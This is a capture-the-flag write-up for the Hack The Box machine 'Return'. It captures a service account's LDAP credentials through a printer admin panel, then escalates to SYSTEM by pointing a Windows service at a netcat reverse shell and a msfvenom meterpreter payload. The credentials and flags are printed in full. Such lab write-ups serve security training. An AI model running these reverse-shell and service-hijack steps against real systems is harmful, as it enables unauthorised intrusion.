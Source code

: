 ```yaml
---
title: "Return from HTB"
categories: [Hack The Box]
tags: [Hack The Box]
---
```

# Return from HTB
`nmap` gave this
```bash
PORT      STATE    SERVICE       VERSION
53/tcp    open     domain        Simple DNS Plus
80/tcp    open     http          Microsoft IIS httpd 10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-title: HTB Printer Admin Panel
|_http-server-header: Microsoft-IIS/10.0
88/tcp    open     kerberos-sec  Microsoft Windows Kerberos (server time: 2024-08-22 20:42:37Z)
135/tcp   open     msrpc         Microsoft Windows RPC
139/tcp   open     netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open     ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp   open     microsoft-ds?
464/tcp   open     kpasswd5?
593/tcp   open     ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open     tcpwrapped
3268/tcp  open     ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp  open     tcpwrapped
5985/tcp  open     http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open     mc-nmf        .NET Message Framing
47001/tcp open     http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open     msrpc         Microsoft Windows RPC
49665/tcp open     msrpc         Microsoft Windows RPC
49666/tcp open     msrpc         Microsoft Windows RPC
49667/tcp open     msrpc         Microsoft Windows RPC
49671/tcp open     msrpc         Microsoft Windows RPC
49674/tcp open     ncacn_http    Microsoft Windows RPC over HTTP 1.0
49675/tcp open     msrpc         Microsoft Windows RPC
49679/tcp open     msrpc         Microsoft Windows RPC
49682/tcp open     msrpc         Microsoft Windows RPC
49694/tcp open     msrpc         Microsoft Windows RPC
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled and required
| smb2-time:
|   date: 2024-08-22T20:43:39
|_  start_date: N/A
|_clock-skew: 18m34s
```
Get connection on `nc`from the site in `server-address`type your `IP`
```bash
nc -nlvp 389
```
Then click `update`on site
```bash
nc -nvlp 389
listening on [any] 389 ...
connect to [10.10.16.7] from (UNKNOWN) [10.10.11.108] 58347
0*`%return\svc-printer�
                       1edFg43012!!
```
Then use this to connect to `windows`with `evil-winrm`
```bash
evil-winrm -i 10.10.11.108 -u svc-printer -p '1edFg43012!!'

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc-printer\Documents>
```
***
User Flag is: 69dd24b5890991f02400238c074f6268
***
``` bash
net user svc-printer
User name                    svc-printer
Full Name                    SVCPrinter
Comment                      Service Account for Printer
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            5/26/2021 1:15:13 AM
Password expires             Never
Password changeable          5/27/2021 1:15:13 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   8/22/2024 1:55:54 PM

Logon hours allowed          All

Local Group Memberships      *Print Operators      *Remote Management Use
                             *Server Operators
Global Group memberships     *Domain Users
```
Members of `server operators` group can start/stop system services. Let's modify a service binary path to obtain a reverse shell
First upload `nc.exe`on machine
```bash
upload /usr/share/windows-resources/binaries/nc.exe

Info: Uploading /usr/share/windows-resources/binaries/nc.exe to C:\Users\svc-printer\Documents\nc.exe
```
Then configure `reverse shell`
```bash
sc.exe config vss binPath="C:\Users\svc-printer\Documents\nc.exe -e cmd.exe 10.10.16.7 1234"
```
then
```
sc.exe stop vss
sc.exe start vss
```
This will give us connection no `netcat`
The above-obtained shell is unstable and might die after a few seconds. A more efficient way would be to obtain a `meterpreter`shell and then quickly migrate to a more stable process.
```bash
sudo msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.16.7 LPORT=1337 -f exe > shell.exe
```
Then in `evil-winrm`upload `shell.exe`
```bash
*Evil-WinRM* PS C:\Users\svc-printer\Documents> upload shell.exe

*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe config vss binPath="C:\Users\svc-printer\Document\shell.exe"

sc.exe stop vss
```
Now run `msfconsoe`
```bash
msf6 > use exploit/multi/handler

msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp

msf6 exploit(multi/handler) > set LHOST 10.10.16.7
LHOST => 10.10.16.7

msf6 exploit(multi/handler) > set LPORT 1337
LPORT => 1337

msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 10.10.16.7:1337
```
Now on `evil-winrm`
```
sc.exe start vss
```
This will give us connection on `meterpreter`and then we should migrate to `svchost.exe`process
```bash
meterpreter > ps
-------
-------------------
 5028  636   svchost.exe    x64   0        NT AUTHORITY\SYSTEM    C:\Windows\System32\sv
                                                                  chost.exe

meterpreter > migrate 5028
[*] Migrating from 4392 to 5028...
[*] Migration completed successfully.
```
Then spawn shell
```bash
meterpreter > shell
Process 2616 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```
`root.txt`is located at  `C:\Users\Administrator\Desktop>`
***
Root Flag is: b534ec870c17d48af6a0e7e46c1b6b74
***
![](/assets/images/2024-08-23_01-21-30.png)
